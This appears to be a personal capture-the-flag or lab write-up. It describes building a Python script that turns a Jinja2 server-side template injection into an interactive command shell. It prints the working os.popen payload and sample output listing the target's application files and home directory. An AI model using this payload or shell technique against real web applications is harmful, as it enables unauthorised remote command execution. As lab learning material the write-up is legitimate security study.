 I was able to put together a nice ssti.txt with a lot of stuff frmo the PayloadsAllTheThings jinja2 cheat sheet.. and figured out how to get to command execution super quickly.

:: sstiexploit.py

So, started with this for cmd execution and decided to make my script take input and create a cmd shell out of it.  Some translation will be a problem, will have to escape quotes and doublequotes with \ but should be okay I think in this situation..
`
aaa{{ joiner.__init__.__globals__.os.popen('id').read() }}

Decided to just .replace("!CMD!",mycmd) , making my new string:

aaa{{ joiner.__init__.__globals__.os.popen('!CMD!').read() }}

About an hour or so into it and man, I am rolling, full cmdshell - sstiexploit.py . HOLY CRAP THIS MAKES ME HAPPY !!

└──╼ #pico sstiexploit.py ; python3 sstiexploit.py



sstiexploit.py - crypticsilence 2022-05-08



Err Score String
CMD (or 'exit')> ls
Tried:	aaaaaa{{ joiner.__init__.__globals__.os.popen('ls').read() }}
aaaaaamain.py
main.pyc
misc
__pycache__
static
templates
uploads
wsgi.py


CMD (or 'exit')> ls -lsaF
Tried:	aaaaaa{{ joiner.__init__.__globals__.os.popen('ls -lsaF').read() }}
aaaaaatotal 40
4 drwxrwxr-x 7 svc_acc svc_acc 4096 May  8 10:30 ./
4 drwxr-xr-x 7 svc_acc svc_acc 4096 May  8 00:56 ../
4 -rw-r--r-- 1 svc_acc svc_acc 1765 Apr  4 12:58 main.py
4 -rw-r--r-- 1 svc_acc svc_acc 2192 May  7 21:42 main.pyc
4 drwxr-xr-x 2 svc_acc svc_acc 4096 May  8 15:10 misc/
4 drwxr-xr-x 2 root    root    4096 Apr  4 12:59 __pycache__/
4 drwxr-xr-x 7 svc_acc svc_acc 4096 Jan  6 11:17 static/
4 drwxr-xr-x 2 svc_acc svc_acc 4096 Jan  6 11:17 templates/
4 drwxr-xr-x 2 svc_acc svc_acc 4096 May  8 15:10 uploads/
4 -rw-r--r-- 1 svc_acc svc_acc  104 Apr  4 12:58 wsgi.py


CMD (or 'exit')> ls -lsaF /home
Tried:	aaaaaa{{ joiner.__init__.__globals__.os.popen('ls -lsaF /home').read() }}
aaaaaatotal 12
4 drwxr-xr-x  3 root    root    4096 Jan  5 10:44 ./
4 drwxr-xr-x 23 root    root    4096 Apr  7 13:51 ../
4 drwxr-xr-x  7 svc_acc svc_acc 4096 May  8 00:56 svc_acc/
